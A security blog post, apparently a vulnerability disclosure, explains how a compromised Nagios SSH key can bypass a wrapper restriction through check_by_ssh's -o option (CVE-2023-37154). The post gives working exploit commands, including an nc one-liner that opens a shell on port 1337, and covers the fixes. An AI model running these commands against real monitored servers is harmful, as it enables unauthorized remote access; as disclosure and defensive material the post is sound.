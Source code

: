```yaml
---
layout: post
title: "Nagios: Hacking Monitored Servers With check_by_ssh and CVE-2023-37154"
author: "Joshua Rogers"
categories: security
#tags: [security work life]
#image: cutting.jpg
---
```


Nagios-compatible systems are some of the most widely used infrastructure monitoring solutions. They use "plugins" to monitor server performance, with "Nagios Core" interpreting results. However, there's a potentially significant security issue with Nagios and its default plugins – they may be an effective backdoor to the monitored servers. Even with sysadmin restrictions on the user, it's possible to bypass these restrictions and achieve remote code execution.

In this blog post, we'll explore how Nagios can be used to execute arbitrary commands on servers with [nagios-plugins](https://github.com/nagios-plugins/nagios-plugins) or [monitoring-plugins/monitoring-plugins](https://github.com/monitoring-plugins/monitoring-plugins) installed.

---

### Nagios: A Quick History.

"Nagios" was originally created in 1999, and is one of the world's most popular infrastructure monitoring solutions. Effectively, Nagios has two parts: its core system, and its plugin system. The core system connects remotely to the server it is monitoring, runs a "plugin", and then handles the response.

Nagios Core has under-gone various forks and clones in history, forming the basis for Naemon and Icinga, as well as op5, Shinken. Various projects have been created in peripheral to Nagios, such as Thruk and Nagios XI, which are web interfaces for the aforementioned core systems.

---

### Nagios Plugins

Nagios Plugins are small programs or scripts that perform the checks or tests on the host. These plugins can do practically anything: check connectivity to networks or services, check system statistics, perform tests on local or remote services, and so on. They are completely modular, so you can add plugins to monitor specific services for your environment easily: they simply must return an exit status code and some text that can be parsed by Nagios Core.

---

### Nagios Connection Methods

Again, it is important to note that the monitoring data is nearly always collected via a _pull_ method -- Nagios Core connects to the server being monitored, plugins are run, and data is collected. The connection is generally either using SSH, or NRPE (Nagios Remote Plugin Executor); the former using either SSH keys or credentials, and the latter of which _can_ be authenticated using a pre-defined SSL certificate.

The Nagios official documentation states that [SSH is more secure than NRPE](https://assets.nagios.com/downloads/nagioscore/docs/nrpe/NRPE.pdf). But is that completely true?

---

### Nagios Backdoor User

When you set up nagios-plugins on the _monitored_ host, you normally create a new user for the plugins to run. Just like other human users on the server, this user has access to a shell accessible via SSH.

If Nagios uses SSH to execute the plugins on the server, then, effectively, a backdoor account has been created: if you hack the private key from the Nagios Core server, then you can gain system access to every server being monitored. Seems bad, right?

In reality, people don't usually allow the Nagios user on their monitored servers unrestricted shell access. Instead, a wrapper script restricts the user to running only installed plugins. For example, a restriction on Nagios' SSH key in _authorized_keys_:
```
command="/var/nagios/wrapper.sh",no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty ssh-rsa [..ssh pubkey..]
```
could limit the user to running only plugins installed in _/usr/lib/nagios/plugins/_:
```
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
    check_[a-z]*)
        /usr/lib/nagios/plugins/$SSH_ORIGINAL_COMMAND
        ;;
    *)
        exit 1
        ;;
esac
```

This way, the only commands that can be executed via SSH must begin with the name of an installed plugin. At first glance, this is a practical solution to restricting this account to not act as a backdoor for anybody that is able to gain access to the Nagios server.

---

### Nagios Plugin Hacking

During a recent pentest, I was in this exact situation: I had hacked the Nagios Core server, and had the private key used to connect via SSH to thousands of servers being monitored via Nagios. However, I couldn't get a shell. Not straight away, at least.

Looking through the list of default installed plugins by the Debian package, I came across the _check_by_ssh_ plugin, which "uses SSH to execute commands on a remote host". That is to say, Nagios Core connects to a monitored server, and that monitored server then connects to a further system.

_check_by_ssh_ comes with a handy option to pass parameters to the ssh client when it is executed on the monitored server:
```
     -o, --ssh-option=OPTION
        Call ssh with '-o OPTION' (may be used multiple times) [optional]
```

Coincidently while I was performing this aforementioned pentest, I was also working on a website documenting different ways to achieve command execution using a vulnerability known as argument injection. On that website, I have a list of different ways that the ssh client can be abused to execute commands _locally_. Documented at [gtfoargs.github.io/gtfoargs/ssh](https://gtfoargs.github.io/gtfoargs/ssh/), I list the well-known _ProxyCommand_, _PermitLocalCommand_, and _LocalCommand_ options available in SSH, which will execute commands on the _client side_.

Effectively, _check_by_ssh_ will call _ssh(1)_, which will call _system(3)_ with user-supplied data.

Putting this all together, I realized that I could abuse this functionality to execute commands on the monitored system, using this _check_by_ssh_ plugin. Using the following commands, I could execute _uname_:
```
ssh -i nagios.key nagios@server 'check_by_ssh -H remote-server -l passwordlessuser -o PermitLocalCommand=yes -o LocalCommand="uname" -o StrictHostKeyChecking=no'
```

The monitored server would connect to remote-server using the passwordlessuser user successfully, and _uname_ would run on the monitored server itself. Due to either a limitation or bug in _check_by_ssh_, spaces did not work for the `-o` parameter of _check_by_ssh_.

The solution to this problem was to use `\${IFS}` in place of every space needed. As such, I came up with:
```
ssh -i nagios.key nagios@server "check_by_ssh -H remote-server -l passwordlressuser -v -o PermitLocalCommand=yes -o StrictHostKeyChecking=no -o LocalCommand=nc\${IFS}-l\${IFS}-p1337\${IFS}-e/bin/sh"
```
and was able to spawn a shell on port 1337.

---
### Discussion and Fix

Different providers of _nagios-plugins_ view this issue differently. The original [http://nagios-plugins.org/](http://nagios-plugins.org/) considers this an issue and has fixed it in [this commit](https://github.com/nagios-plugins/nagios-plugins/commit/e8810de21be80148562b7e0168b0a62aeedffde6). [monitoring-plugins](https://github.com/monitoring-plugins/monitoring-plugins), which provides _nagios-plugins_ for Ubuntu and Debian, do not consider this an issue, and they conclude that while the execution of arbitrary commands by _check_by_ssh_ is not well known, there may be legitimate reason to support the functionality afforded by _ssh(1)_. In the former case, CVE-2023-37154 was assigned to the issue.

There is of course another discussion of how much responsibility lays on the sysadmins monitoring these systems. Other than abusing this functionality in _check_by_ssh_, the _negate_ plugin can also arbitrarily run commands by design:
```
# ./negate --help
[..]
Negates the status of a plugin (returns OK for CRITICAL and vice-versa).
Additional switches can be used to control which state becomes what.

# ./negate '/bin/uname -a'
Linux security 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

However, even if a sysadmin installs only the plugins they need, there is an unknown factor of whether the plugins may _possibly_ execute arbitrary commands on the host themself.

The aforementioned NRPE (which is now deprecated) recommended using predefined lists of commands which the plugins on the servers would run. In order to parse user-defined arguments, one must specifically configure `dont_blame_nrpe=1`. That may be the most secure method for SSH too.

---
### Conclusion


In the world of security, it is the weakest link that an attacker should focus their attention on. Whether it be physical or digital, a server or a service; if an attacker is able to compromise a link that is imperative to the overall chain, then the whole chain falls. Monitoring systems are often neglected in terms of security despite their wide-reaching access. If you can take the Nagios server, you can take over the whole farm.
